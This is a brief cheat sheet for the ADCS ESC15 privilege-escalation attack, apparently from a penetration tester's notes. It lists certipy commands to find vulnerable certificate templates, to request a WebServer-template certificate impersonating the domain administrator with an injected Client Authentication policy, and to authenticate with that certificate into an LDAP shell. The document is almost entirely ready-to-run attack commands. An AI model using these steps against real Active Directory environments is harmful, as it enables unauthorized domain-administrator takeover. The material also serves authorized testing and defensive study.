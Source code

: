 # ADCS ESC15

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Request certificate
```
certipy req \
    -u '<username>' -p '<password>' \
    -dc-ip '<DC_IP>' -target '<CA_FQDN>' \
    -ca '<CA_HOST>' -template 'WebServer' \
    -upn 'administrator@<domain>' -sid '<ADMIN_SID>' \
    -application-policies 'Client Authentication'
```

## 3. Authenticate
```
certipy auth -pfx 'administrator.pfx' -dc-ip '<dc-ip>' -ldap-shell
```

